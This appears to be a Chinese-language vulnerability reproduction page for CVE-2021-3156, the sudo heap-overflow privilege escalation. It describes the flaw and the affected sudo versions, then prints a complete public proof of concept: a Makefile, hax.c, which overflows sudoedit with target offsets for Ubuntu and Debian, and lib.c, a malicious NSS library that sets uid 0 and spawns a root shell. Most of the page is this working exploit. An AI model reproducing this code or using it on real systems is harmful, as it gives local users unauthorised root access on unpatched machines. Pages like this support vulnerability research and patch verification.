


Linux sudo 权限提升漏洞 CVE-2021-3156¶
漏洞描述¶
2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。
当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。
漏洞影响¶
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
漏洞复现¶
目前POC已经在Github公开：Linux sudo权限提升漏洞 CVE-2021-3156

当前可以验证的Linux环境为
Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
这里使用腾讯云中的Ubuntu镜像进行复现
使用命令
[
漏洞POC
一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus
Makefile
all:
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
brute: all
gcc -DBRUTE -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
rm -rf libnss_X sudo-hax-me-a-sandwich
hax.c
/**
** CVE-2021-3156 PoC by blasty <peter@haxx.in>
** ===========================================
**
** Exploit for that sudo heap overflow thing everyone is talking about.
** This one aims for singleshot. Does not fuck with your system files.
** No warranties.
**
** Shout outs to:
** Qualys - for pumping out the awesome bugs
** lockedbyte - for coop hax. (shared tmux gdb sessions ftw)
** dsc - for letting me rack up his electricity bill
** my wife - for all the quality time we had to skip
**
** Enjoy!
**
** -- blasty // 20210130
**/
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>
// 512 environment variables should be enough for everyone
#define MAX_ENVP 512
#define SUDOEDIT_PATH "/usr/bin/sudoedit"
typedef struct {
char *target_name;
char *sudoedit_path;
uint32_t smash_len_a;
uint32_t smash_len_b;
uint32_t null_stomp_len;
uint32_t lc_all_len;
} target_t;
target_t targets[] = {
{
// Yes, same values as 20.04.1, but also confirmed.
.target_name = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
.sudoedit_path = SUDOEDIT_PATH,
.smash_len_a = 56,
.smash_len_b = 54,
.null_stomp_len = 63,
.lc_all_len = 212
},
{
.target_name = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
.sudoedit_path = SUDOEDIT_PATH,
.smash_len_a = 56,
.smash_len_b = 54,
.null_stomp_len = 63,
.lc_all_len = 212
},
{
.target_name = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
.sudoedit_path = SUDOEDIT_PATH,
.smash_len_a = 64,
.smash_len_b = 49,
.null_stomp_len = 60,
.lc_all_len = 214
}
};
void usage(char *prog) {
fprintf(stdout,
" usage: %s <target>\n\n"
" available targets:\n"
" ------------------------------------------------------------\n",
prog
);
for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
printf(" %d) %s\n", i, targets[i].target_name);
}
fprintf(stdout,
" ------------------------------------------------------------\n"
"\n"
" manual mode:\n"
" %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
"\n",
prog
);
}
int main(int argc, char *argv[]) {
printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");
if (argc != 2 && argc != 5) {
usage(argv[0]);
return -1;
}
target_t *target = NULL;
if (argc == 2) {
int target_idx = atoi(argv[1]);
if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
fprintf(stderr, "invalid target index\n");
return -1;
}
target = &targets[ target_idx ];
} else {
target = malloc(sizeof(target_t));
target->target_name = "Manual";
target->sudoedit_path = SUDOEDIT_PATH;
target->smash_len_a = atoi(argv[1]);
target->smash_len_b = atoi(argv[2]);
target->null_stomp_len = atoi(argv[3]);
target->lc_all_len = atoi(argv[4]);
}
printf(
"using target: %s ['%s'] (%d, %d, %d, %d)\n",
target->target_name,
target->sudoedit_path,
target->smash_len_a,
target->smash_len_b,
target->null_stomp_len,
target->lc_all_len
);
char *smash_a = calloc(target->smash_len_a + 2, 1);
char *smash_b = calloc(target->smash_len_b + 2, 1);
memset(smash_a, 'A', target->smash_len_a);
memset(smash_b, 'B', target->smash_len_b);
smash_a[target->smash_len_a] = '\\';
smash_b[target->smash_len_b] = '\\';
char *s_argv[]={
"sudoedit", "-s", smash_a, "\\", smash_b, NULL
};
char *s_envp[MAX_ENVP];
int envp_pos = 0;
for(int i = 0; i < target->null_stomp_len; i++) {
s_envp[envp_pos++] = "\\";
}
s_envp[envp_pos++] = "X/P0P_SH3LLZ_";
char *lc_all = calloc(target->lc_all_len + 16, 1);
strcpy(lc_all, "LC_ALL=C.UTF-8@");
memset(lc_all+15, 'C', target->lc_all_len);
s_envp[envp_pos++] = lc_all;
s_envp[envp_pos++] = NULL;
printf("** pray for your rootshell.. **\n");
execve(target->sudoedit_path, s_argv, s_envp);
return 0;
}
lib.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
static void __attribute__ ((constructor)) _init(void);
static void _init(void) {
printf("[+] bl1ng bl1ng! We got it!\n");
#ifndef BRUTE
setuid(0); seteuid(0); setgid(0); setegid(0);
static char *a_argv[] = { "sh", NULL };
static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
execv("/bin/sh", a_argv);
#endif
}